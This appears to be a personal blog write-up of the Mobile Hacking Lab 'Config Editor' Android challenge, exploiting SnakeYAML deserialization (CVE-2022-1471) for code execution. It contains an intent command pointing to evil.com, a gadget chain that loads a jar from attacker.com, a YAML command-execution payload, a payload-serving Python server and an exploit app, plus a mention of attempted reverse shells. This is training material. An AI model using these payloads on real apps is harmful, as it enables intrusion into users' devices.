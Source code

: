 ```yaml
---
title:  "Mobile Hacking Lab Config Editor Writeup"
date:   2024-01-22T16:27:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for [Config Editor](https://www.mobilehackinglab.com/course/lab-config-editor-rce) challenge from Mobile Hacking Lab. 

## Static Analysis

When we open the app in emulator, it opens a page with "load" and "save" buttons and a text input area. When we press the load button, it opens the file manager for us to select a file and we can load example.yml file that created by app. Also we can write something to text area and save it with save button. Before saving file, it recommends a file name with yml extension again. Let's open it with jadx to understand the app.

![](/assets/images_mhl_configeditor/manifest.png)

When we examine the manifest file, we see that an intent filter is defined for MainActivity. To properly trigger this activity we need to send intent with http/https or file scheme and VIEW action. Also, the type of data we will send with intent is expected to be yaml.
```bash
# Sample intent
adb shell am start -n com.mobilehackinglab.configeditor/.MainActivity -a android.intent.action.VIEW -d "http://evil.com"
```
But we need to know what happened when this activity triggered. To undestand this, lets analyze MainActivity

![](/assets/images_mhl_configeditor/mainactivity.png)
 
Inside the onCreate function, handleIntent method called after setting the view of activity.

### handleIntent Function

![](/assets/images_mhl_configeditor/handleIntent.png)

handleIntent function handle the coming intent and after checking the action and uri, sends the uri to CopyFileFromUri function. After copying file from uri, it loads the yaml file with loadYaml function. During download and save processes getLastPathSegment function leads to file write with directory traversal vulnerability but this is not the case we will look into in this post. I explained that vulnerability on my [previous post](https://sh4d0wlesss.github.io/writeup/Mobile-Hacking-Lab-Document-Viewer-Challenge-Writeup/). This challenge have same vulnerability too. If you dont trust me go and test it :D

### loadYaml Function

![](/assets/images_mhl_configeditor/loadYaml.png)

loadYaml function gets the file from given uri and loads it with yaml.load function. This load function comes from snakeyaml(org.yaml.snakeyaml) package. This is a popular java library to parse yaml files. Some tips were given on the challenge page, and these tips mentioned finding a vulnerability in a 3rd party library. Since there is no native library file in the apk, the vulnerable library may be the snakeyaml library. Also, about a week before I wrote this article, I watched a [video prepared by mdisec](https://www.youtube.com/watch?v=IPrRccHlgLM) on YouTube, and while trying to solve this challenge, I remembered that the snakeyaml library was also mentioned in that video. In the video, a deserialization vulnerability(`CVE-2022-1471`) in the snakeyaml library is mentioned and the exploitation stages are shown in practice.

#### CVE-2022-1471

As far as I understand from the blog posts I read while researching this vulnerability, during the serialization we can specify the object inside the yaml file and snakeyaml will use this class name for creating object from same class during deserialization(also snakeyaml add that classnames when yaml.dump fucntion called for serialization). For example, we can specify the object type as car inside the yaml:
```yaml
car: 
  !!sample.car
  brand: kia
  model: rio
  year: 2004
  type: stationwagon
```
We can write the any class(must be in classpath) we want in the yaml file and the vulnerability is revealed here. Here is the example gadget chain shared as poc for this vuln:
```yaml
#ref: https://www.mscharhag.com/security/snakeyaml-vulnerability-cve-2022-1471

person: !!javax.script.ScriptEngineManager [
    !!java.net.URLClassLoader [[
        !!java.net.URL [http://attacker.com/malicious-code.jar]
    ]]
]
```
With this chain (If the attacker can control the content of the yaml file) attacker can get remote code execution. I will not explain the details of the attack in this article. If you want to examine the detailed stages of this attack, [I highly recommend this blog post.](https://www.mscharhag.com/security/snakeyaml-vulnerability-cve-2022-1471) I tried this payload with app but it gives error because ScriptEngineManager class not found. [After some research](https://stackoverflow.com/questions/46320972/engine-eval-returns-null-in-android-studio) i saw that ScriptEngineManager is not available on Android by default. Instead of that everyone recommend `rhino` but im not a Android developer and i didnt understand anything that i read about that topic :D

But we need to get a remote code execution somehow. As you can see in the first picture I added at the beginning of the article, there is another class called LegacyCommandUtil in the application.

```java
public final class LegacyCommandUtil {
    public LegacyCommandUtil(String command) {
        Intrinsics.checkNotNullParameter(command, "command");
        Runtime.getRuntime().exec(command);
    }
}
```
Inside the constructor of this class, a "command" executed with runtime exec function. We can use this class to exploit this vulnerability because we can access this class. Here is the sample yaml file:
```yaml
cartcurt: !!com.mobilehackinglab.configeditor.LegacyCommandUtil ["touch /data/data/com.mobilehackinglab.configeditor/poc.txt"]
```
If this payload works, poc.txt file will be created inside the application directory. For serving this file i used my hacky server code from previous post :
```py
#proudly stolen from : https://stackoverflow.com/questions/46105356/serve-a-file-from-pythons-http-server-correct-response-with-a-file
from http.server import BaseHTTPRequestHandler, HTTPServer
class MyHackyServer(BaseHTTPRequestHandler):

    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        exploit_file = open('hacky.yml', 'rb')
        self.wfile.write(exploit_file.read())
        self.end_headers()


myServer = HTTPServer(('localhost', 1234), MyHackyServer)
myServer.serve_forever()
```
and the adb command for sending proper intent:
```bash
adb shell am start -n com.mobilehackinglab.configeditor/.MainActivity -a android.action.intent.VIEW -d "http://10.0.3.2:1234"
# 10.0.3.2 is the address of localhost of host machine for genymotion, if you are using Android Studio emulators, this ip will be 10.0.2.2 for you.
```
Here is the result(video):

[![](https://img.youtube.com/vi/vhk_WS9Da_0/0.jpg)](https://youtu.be/vhk_WS9Da_0)

It works🥳 If you want to make same thing with evil application, here is my sample code:
```java
package com.example.exploitconfigeditor;

import androidx.appcompat.app.AppCompatActivity;

import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Uri uri = Uri.parse("http://10.0.3.2:1234");
        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setClassName("com.mobilehackinglab.configeditor","com.mobilehackinglab.configeditor.MainActivity");
        intent.setData(uri);
        startActivity(intent);
    }
}
```
And poc video:

[![](https://img.youtube.com/vi/YGbHG2m4clM/0.jpg)](https://youtu.be/YGbHG2m4clM)

We can run code remotely with small yaml file :)

Sad note: 😔
- I have tried lots of payloads to get reverse shell but i failed. [As mentioned here](https://stackoverflow.com/questions/25199307/unable-using-runtime-exec-to-execute-shell-command-echo-in-android-java-code), exec function does not execute [shell builtins](https://www.networkworld.com/article/967046/how-to-identify-shell-builtins-aliases-and-executable-files-on-linux-systems.html), it executes executables and for getting reverse shell i need to pass string array to constructor. Also i tried payloads with ${IFS} but they didn't work. If you can create working reverse shell payload please dm me on twitter or linkedin
- In this example we have a class that executes commands but in real world scenario i dont know how i can get remote code execution on android app with this vulnerability. If you can get rce on this challenge with another method, please dm me 👀

Thanks for reading! See you in next writeups :)
